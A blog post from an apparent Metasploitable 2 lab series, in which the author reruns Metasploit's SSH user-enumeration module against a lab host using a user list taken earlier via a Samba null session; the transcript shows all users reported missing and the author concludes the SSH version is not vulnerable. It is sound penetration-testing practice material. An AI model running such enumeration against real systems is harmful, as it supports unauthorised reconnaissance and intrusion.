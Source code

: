 <!--hacking, metasploit, ssh-->
# SSH follow up

Since I did my last post I have been meaning to write a follow up on the failed attempt at using: `auxiliary/scanner/ssh/ssh_enumusers`.
I wanted to figure out what went wrong and if the vulnerability was even applicable. Since I have a list of all the users now I can try 
the enumeration again with the known users as the user name list.

## Another go

I managed to get a list of al the users during [this](https://filimon-danopoulos.github.io/posts/2014-11-15_Metasploitable-2-part-one.html)
exercise by exploiting a null session vulnerability in Samba. I saved it to the file `users.lst` so let's launch the exploit 
with that file.

    msf > use auxiliary/scanner/ssh/ssh_enumusers 
    msf auxiliary(ssh_enumusers) > show option
    [-] Invalid parameter "option", use "show -h" for more information
    msf auxiliary(ssh_enumusers) > show options

    Module options (auxiliary/scanner/ssh/ssh_enumusers):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       Proxies                     no        Use a proxy chain
       RHOSTS                      yes       The target address range or CIDR identifier
       RPORT      22               yes       The target port
       THREADS    1                yes       The number of concurrent threads
       THRESHOLD  10               yes       Amount of seconds needed before a user is considered found
       USER_FILE                   yes       File containing usernames, one per line

    msf auxiliary(ssh_enumusers) > set USER_FILE users.lst 
    USER_FILE => users.lst
    msf auxiliary(ssh_enumusers) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(ssh_enumusers) > run

    [*] 192.168.56.103:22 - SSH - Checking for false positives
    [*] 192.168.56.103:22 - SSH - Starting scan
    [!] 192.168.56.103:22 - SSH - User 'nobody' not found
    [!] 192.168.56.103:22 - SSH - User 'bind' not found
    [!] 192.168.56.103:22 - SSH - User 'proxy' not found
    [!] 192.168.56.103:22 - SSH - User 'syslog' not found
    [!] 192.168.56.103:22 - SSH - User 'user' not found
    [!] 192.168.56.103:22 - SSH - User 'www-data' not found
    [!] 192.168.56.103:22 - SSH - User 'root' not found
    [!] 192.168.56.103:22 - SSH - User 'news' not found
    [!] 192.168.56.103:22 - SSH - User 'postgres' not found
    [!] 192.168.56.103:22 - SSH - User 'bin' not found
    [!] 192.168.56.103:22 - SSH - User 'mail' not found
    [!] 192.168.56.103:22 - SSH - User 'distccd' not found
    [!] 192.168.56.103:22 - SSH - User 'proftpd' not found
    [!] 192.168.56.103:22 - SSH - User 'dhcp' not found
    [!] 192.168.56.103:22 - SSH - User 'daemon' not found
    [!] 192.168.56.103:22 - SSH - User 'sshd' not found
    [!] 192.168.56.103:22 - SSH - User 'man' not found
    [!] 192.168.56.103:22 - SSH - User 'lp' not found
    [!] 192.168.56.103:22 - SSH - User 'mysql' not found
    [!] 192.168.56.103:22 - SSH - User 'gnats' not found
    [!] 192.168.56.103:22 - SSH - User 'libuuid' not found
    [!] 192.168.56.103:22 - SSH - User 'backup' not found
    [!] 192.168.56.103:22 - SSH - User 'msfadmin' not found
    [!] 192.168.56.103:22 - SSH - User 'telnetd' not found
    [!] 192.168.56.103:22 - SSH - User 'sys' not found
    [!] 192.168.56.103:22 - SSH - User 'klog' not found
    [!] 192.168.56.103:22 - SSH - User 'postfix' not found
    [!] 192.168.56.103:22 - SSH - User 'service' not found
    [!] 192.168.56.103:22 - SSH - User 'list' not found
    [!] 192.168.56.103:22 - SSH - User 'irc' not found
    [!] 192.168.56.103:22 - SSH - User 'ftp' not found
    [!] 192.168.56.103:22 - SSH - User 'tomcat55' not found
    [!] 192.168.56.103:22 - SSH - User 'sync' not found
    [!] 192.168.56.103:22 - SSH - User 'uucp' not found
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    
Not a single user found, but we know that all users exist! That means that this version of SSH is not actually vulnerable to 
this attack. I have done some searching about this version online and it seems like it suffers from another vulnerability namely 
[this](http://www.exploit-db.com/exploits/5720/) one on http://www.exploit-db.com/. Who knows I might come around doing 
that if I get bored enough...


